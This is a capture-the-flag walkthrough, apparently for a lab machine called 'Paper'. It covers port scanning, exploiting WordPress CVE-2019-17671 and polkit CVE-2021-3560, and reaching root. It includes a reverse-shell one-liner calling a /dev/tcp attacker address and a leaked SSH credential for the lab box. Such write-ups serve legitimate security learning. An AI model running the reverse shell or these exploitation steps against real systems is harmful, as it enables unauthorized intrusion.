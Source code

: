 # Information Gathering

![](/assets_md/Pasted%20image%2020220322074841.png)

```bash
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-title: HTTP Server Test Page powered by CentOS
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
| tls-alpn: 
|_  http/1.1
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HTTP Server Test Page powered by CentOS
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34

```

### Domain Name Found

![](/assets_md/Pasted%20image%2020220323110458.png)

![](/assets_md/Pasted%20image%2020220323110513.png)

Using WordPress

# Initial Access

![](/assets_md/Pasted%20image%2020220323135240.png)

![](/assets_md/Pasted%20image%2020220323135616.png)

![](/assets_md/Pasted%20image%2020220323135638.png)

**Vulnerable @ `CVE-2019-17671`**

### Exploiting `CVE-2019-17671`

![](/assets_md/Pasted%20image%2020220325122527.png)

![](/assets_md/Pasted%20image%2020220325122616.png)

![](/assets_md/Pasted%20image%2020220325122741.png)

![](/assets_md/Pasted%20image%2020220325123017.png)

![](/assets_md/Pasted%20image%2020220325124133.png)

### `Vulnerable to Directory Traversal & File Read`

![](/assets_md/Pasted%20image%2020220325134835.png)

### `Vulnerable @ Remote Code Execution`

![](/assets_md/Pasted%20image%2020220325142813.png)

![](/assets_md/Pasted%20image%2020220325143419.png)

```bash
sh -i >& /dev/tcp/10.10.14.18/443 0>&1
```

![](/assets_md/Pasted%20image%2020220325143431.png)

### `Password Exposed`

We can run command or login through `SSH` with credentials found above `dwight:Queenofblad3s!23`

![](/assets_md/Pasted%20image%2020220326081633.png)

# Privilege Escalation

![](/assets_md/Pasted%20image%2020220326084208.png)

![](/assets_md/Pasted%20image%2020220326011138.png)

## Exploiting `CVE-2021-3560`

![](/assets_md/Pasted%20image%2020220326084606.png)

![](/assets_md/Pasted%20image%2020220326085317.png)


# *root@paper*
